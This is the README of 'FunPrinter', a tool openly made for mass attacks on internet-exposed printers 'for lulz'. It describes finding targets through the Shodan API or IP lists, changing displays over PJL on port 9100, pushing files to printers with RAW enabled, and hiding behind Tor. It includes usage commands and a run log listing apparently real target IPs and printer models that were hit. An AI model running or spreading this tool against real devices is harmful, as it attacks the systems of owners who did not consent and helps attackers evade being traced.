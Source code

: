 # FunPrinter
```    
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/
```
### What is FunPrinter?
FunPrinter is a tool for perpetrating massive attacks on printers written by FunSec just for lulz.  
The tool has two modes: 
```
--mode shodan
--mode list 
```  
#### Shodan
The shodan mode searches for devices on the internet of things thanks to shodan api. To use this mode you will need yout own API key of shodan.
#### List
List mode reads a specific list and loads them into the program.  
Example list:  
```
140.223.12.34
80.211.32.12
90.23.442.12
5.123.422.12
```
### Message
```
--message <message_here>
```
This argument will specify the message that will be displayed on the printer's screen in case the printer uses PJL through port 9100.  
Example:
```
--message Hacked
```
##### Result (Old picture)
![Example](https://hacking-printers.net/wiki/images/thumb/1/16/PJL-display.png/800px-PJL-display.png)

#### TOR (Optional)
You can use tor to hide your identity (Recommended) so that no angry businessman tries to find you. To do this add --tor in the command of the script.
```python
socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9050)
```
This line of code set the tor proxy in the script. Change the port if you need.

### How to use Usage
The first step is to have a file that you want to print on printers that have RAW protocol enabled.  
Example:
```
funsec@funsec # cat test.txt  
I hack you LMAO
```
If you use this file without going through A4.py it will not print correctly in the printer. The "test.txt" file needs to be a complete page.    

Then you need to execute this command:
```
kek@kek-PC # python A4.py test.txt
By FunSec with love ;)
```
After this simple step ... Happy hacking!.

Example:
```
kek@kek-PC # python funny.py --mode shodan/list --arg ip_list/shodan_api_key --message message (--tor) myfile
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/

[TOR] Verifying the connection to the proxy
[TOR] Actual IP: 77.247.181.162
[LIST] Reading list
[LIST] Done!. 199 ips loaded
[49.79.232.76] Connecting...
[49.79.232.76] Connection failed
[125.75.32.191] Connecting...
[125.75.32.191] Connection failed
[124.167.222.86] Connecting...
[124.167.222.86] Connection failed
[162.249.88.74] Connecting...
[162.249.88.74] Connected!
[162.249.88.74] Testing JPL
[162.249.88.74] Test completed!
[162.249.88.74] RICOH MP C4503
[162.249.88.74] Changing the display screen to Succ!
[162.249.88.74] Done!. Closing the connection
[213.248.30.125] Connecting...
[213.248.30.125] Connected!
[213.248.30.125] Testing JPL
[213.248.30.125] Protocol not supported. Closing the connection
[77.236.139.27] Connecting...
[77.236.139.27] Connected!
[77.236.139.27] Testing JPL
[77.236.139.27] Protocol not supported. Closing the connection
[95.173.193.20] Connecting...
[95.173.193.20] Connected!
[95.173.193.20] Testing JPL
[95.173.193.20] RAW protocol detected. Sending file
[95.173.193.20] Done!. Closing the connection
[218.75.141.13] Connecting...
[218.75.141.13] Connection failed
[173.247.166.122] Connecting...
[173.247.166.122] Connected!
[173.247.166.122] Testing JPL
[173.247.166.122] RAW protocol detected. Sending file
[173.247.166.122] Done!. Closing the connection
[112.171.47.235] Connecting...
[112.171.47.235] Connected!
[112.171.47.235] Testing JPL
[112.171.47.235] Protocol not supported. Closing the connection
[45.60.169.188] Connecting...
[45.60.169.188] Connected!
[45.60.169.188] Testing JPL
[45.60.169.188] Protocol not supported. Closing the connection
[107.154.163.139] Connecting...
[107.154.163.139] Connected!
[107.154.163.139] Testing JPL
[107.154.163.139] Protocol not supported. Closing the connection
[107.154.157.226] Connecting...
[107.154.157.226] Connected!
[107.154.157.226] Testing JPL
[107.154.157.226] Protocol not supported. Closing the connection
[107.154.206.184] Connecting...
[107.154.206.184] Connected!
[107.154.206.184] Testing JPL
[107.154.206.184] Protocol not supported. Closing the connection
[107.154.60.223] Connecting...
[107.154.60.223] Connected!
[107.154.60.223] Testing JPL
[107.154.60.223] Protocol not supported. Closing the connection
[203.130.62.58] Connecting...
[203.130.62.58] Connected!
[203.130.62.58] Testing JPL
[203.130.62.58] Protocol not supported. Closing the connection
[45.60.81.249] Connecting...
[45.60.81.249] Connected!
[45.60.81.249] Testing JPL
[45.60.81.249] Protocol not supported. Closing the connection
[177.0.87.163] Connecting...
[177.0.87.163] Connected!
[177.0.87.163] Testing JPL
[177.0.87.163] Test completed!
[177.0.87.163] Samsung M337x 387x 407x Series
[177.0.87.163] Changing the display screen to Succ!
[177.0.87.163] Done!. Closing the connection
[31.14.252.54] Connecting...
[31.14.252.54] Connected!
[31.14.252.54] Testing JPL
[31.14.252.54] RAW protocol detected. Sending file
[31.14.252.54] Done!. Closing the connection
[107.154.103.88] Connecting...
[107.154.103.88] Connected!
[107.154.103.88] Testing JPL
[107.154.103.88] Protocol not supported. Closing the connection
```
### Requeriments
```
python2.7 (Best version of python LMAO)
pip for python2.7
```
After having these two essential requirements, it is necessary to install the following modules with "pip install module" although this step can be done semiautomatically.  
#### Manual
Modules to install:
  ```
  PySocks, colorama, argparse, shodan
  ```
WARNING: Install all modules individually  
Example:  
Linux
```
pip install PySocks
```
Windows
```
C:\Python27\Scripts\pip.exe install -r requeriments.txt
```
#### Semiautomatic
Run this command in yout shell m8  
Linux
```
pip install -r requeriments.txt
```
Windows
```
C:\Python27\Scripts\pip.exe install -r requeriments.txt
